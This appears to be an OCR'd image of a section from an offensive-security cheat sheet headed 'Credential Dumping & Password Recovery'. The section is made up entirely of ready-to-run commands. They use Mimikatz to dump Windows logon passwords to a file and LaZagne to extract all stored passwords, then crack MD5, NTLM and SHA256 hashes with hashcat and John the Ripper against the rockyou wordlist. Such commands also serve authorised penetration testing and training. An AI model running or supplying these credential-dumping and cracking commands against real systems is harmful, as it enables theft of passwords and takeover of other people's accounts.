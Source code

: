 ### 6.4 Credential Dumping & Password Recovery
    :- (Mimikatz and LaZagne were in the original prompt's example, here are conceptual CLI uses)
    
    :- Run Mimikatz commands (Windows)
    mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit" > creds.txt 
    
    :- Recover stored passwords (Windows/Linux)
    python3 LaZagne.py all -oN lazagane_results
    
    :- Crack MD5 hashes
    hashcat -m 0 -a 0 hashes.txt rockyou.txt --force
    
    :- Crack NTLM hashes
    hashcat -m 1000 -a 0 ntlm_hashes.txt common_passwords.txt
    
    :- Crack SHA256 with John the Ripper
    john --wordlist=rockyou.txt --format=raw-sha256 hashes_sha256.txt 